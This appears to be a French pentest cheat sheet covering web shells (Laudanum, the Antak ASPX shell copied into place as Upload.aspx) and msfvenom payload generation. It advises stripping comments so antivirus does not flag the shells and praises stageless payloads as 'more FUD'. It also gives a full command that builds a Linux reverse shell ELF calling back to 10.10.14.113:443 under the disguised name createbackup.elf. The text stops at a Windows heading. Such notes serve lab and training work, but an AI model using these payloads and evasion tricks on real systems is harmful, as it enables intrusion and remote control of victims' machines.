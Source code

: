 ## LAUDANUM

https://github.com/jbarcia/Web-Shells/tree/master/laudanum

Collection de webshells (penser à retirer les commentaires et ascii art qui sont flags)

```bash
tree /usr/share/laudanum
```

## ANTAK

https://github.com/samratashok/nishang.git

```shell
cp /usr/share/nishang/Antak-WebShell/antak.aspx /home/administrator/Upload.aspx
```

Ajouter un user et mot de passe au webshell (penser à retirer les commentaires et ascii art qui sont flags)

retirer tous les commentaires // dans vim
```
:%s/\s*#.*$//
```



---
# MSFVENOM


> [!IMPORTANT]
> Staged payload -> envoie un premier stage afin d'établir la connexion puis télécharge le reste après.
> 
> Stageless -> Envoie tout en même temps -> plus FUD car moins de bande passante utilisée et plus stable que le staged



Afficher la liste des payloads disponibles

```BASH
msfvenom -l payloads
```

## LINUX

Stageless Linux x64 reverse shell ELF

```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```

## WINDOWS
